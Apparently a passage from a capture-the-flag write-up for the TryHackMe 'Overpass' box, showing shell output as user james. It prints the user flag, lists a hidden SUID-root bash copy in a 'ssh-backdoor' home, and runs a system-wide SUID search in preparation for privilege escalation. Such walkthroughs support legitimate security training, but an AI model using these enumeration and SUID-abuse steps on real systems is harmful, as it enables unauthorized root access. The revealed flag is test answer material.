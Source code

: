 james@overpass-production:/home/james/ssh-backdoor$

# user flag is:
james@overpass-production:/home/james$ cat user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}

# looking for hidden files:
james@overpass-production:/home/james$ ls -al
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 Jul 21  2020 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www

        # the .suid_bash has an SUID set, which means we can likely exploit it!

# checking which binaries/files have the SUID bit set:
james@overpass-production:/home/james$ find / 2>/dev/null -perm -u=s
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/bin/mount
/bin/fusermount
/bin/su
/bin/ping
/bin/umount
/home/james/.suid_bash
